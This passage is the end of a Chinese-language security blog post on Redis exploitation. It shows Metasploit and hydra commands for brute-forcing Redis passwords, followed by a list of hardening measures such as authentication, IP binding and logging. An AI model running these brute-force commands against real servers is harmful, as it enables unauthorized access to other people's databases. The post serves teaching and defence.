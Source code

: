
2.msf的`auxiliary/scanner/redis/redis_login`模块
```bash
use auxiliary/scanner/redis/redis_login
set rhost ...
set threads ...
set pass_file xxxxxxx.txt
run
```
<img src="http://image.xpshuai.cn/20200526094633220_1454687311.png"/>

3.hydra
```bash
# 还是hydra好用，速度还快
hydra -P redis_pass.txt redis://192.168.0.100
```
<img src="http://image.xpshuai.cn/20200526095113424_1824777352.png"/>


## 防御手段
- 禁止root运行redis
- 设置账户密码认证
- 服务部署使用单独低权限账户
- 添加IP访问限制(bind),并更更改默认6379端口
- redis在默认情况下，是不会生成日志文件的，所以需要修改配置文件，让redis生成日志，以及设置日志等级
- 保证 authorized_keys 文件的安全（`chmod 400 ~/.ssh/authorized_keys`）
- 设置防火墙策略　


**参考链接**
https://mp.weixin.qq.com/s/ungjainqdPhA_dDOOMKn4Q
https://www.freebuf.com/column/158065.html


---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/redis%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/  

